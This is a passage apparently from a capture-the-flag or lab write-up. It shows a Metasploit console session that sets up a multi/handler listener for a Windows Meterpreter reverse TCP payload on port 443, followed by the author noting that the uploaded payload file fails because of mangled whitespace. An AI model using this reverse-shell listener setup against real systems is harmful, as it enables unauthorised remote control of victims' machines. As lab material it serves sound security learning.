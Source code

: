 
    msf5 > use exploit/multi/handler 
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set LHOST tun0
    LHOST => tun0
    msf5 exploit(multi/handler) > set lport 443
    lport => 443
    msf5 exploit(multi/handler) > options

    Module options (exploit/multi/handler):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     tun0             yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target

    msf5 exploit(multi/handler) > run
    [*] Started reverse TCP handler on 10.10.14.14:443 



Trigger it, and it fails:

![](/img/1551910306439.png)

Why? If I upload `met.txt` again, I can see that the whitespace is all
jacked up:

![](/img/1551910357954.png)
